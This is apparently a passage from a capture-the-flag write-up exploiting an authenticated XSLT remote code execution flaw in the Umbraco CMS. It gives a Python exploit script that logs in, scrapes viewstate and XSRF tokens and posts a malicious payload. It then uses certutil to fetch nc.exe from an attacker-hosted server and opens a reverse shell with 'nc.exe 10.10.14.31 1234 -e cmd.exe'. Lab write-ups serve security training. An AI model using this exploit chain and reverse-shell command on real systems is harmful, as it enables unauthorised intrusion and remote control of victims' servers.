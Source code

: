 ```xml

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);
soup = BeautifulSoup(r4.text, 'html.parser');
print(soup.find(id="result"))

print("End");
```

I'm taking advantage of the `certutil` download functionality detailed on [this LOLBAS entry](https://lolbas-project.github.io/lolbas/Binaries/Certutil/#download). This lets us download a file from a server we host, with something like: 

```bash
$ sudo python3 -m http.server 80
```

We can run this exploit and see:

```bash
$ python3 exploit-stage-1.py
Start
[]
<div id="result"><?xml version="1.0" encoding="utf-16"?>****  Online  ****
  0000  ...
  96d8
CertUtil: -URLCache command completed successfully.
</div>
End
```

So, theoretically, we have `nc.exe` downloaded onto the target machine, located at `c:/windows/temp/nc.exe`.

Now, we need to modify this exploit to run it and spawn a reverse shell. All we need to change are the `proc.StartInfo.Arguments`, which are stored in the `cmd` variable. To use `nc.exe` to spawn a reverse shell on Windows, the command (in my case) is: `/c c:/windows/temp/nc.exe 10.10.14.31 1234 -e cmd.exe`, after starting a listener on port `1234`. This modification can be found in `exploits/exploit-stage-2.py`.
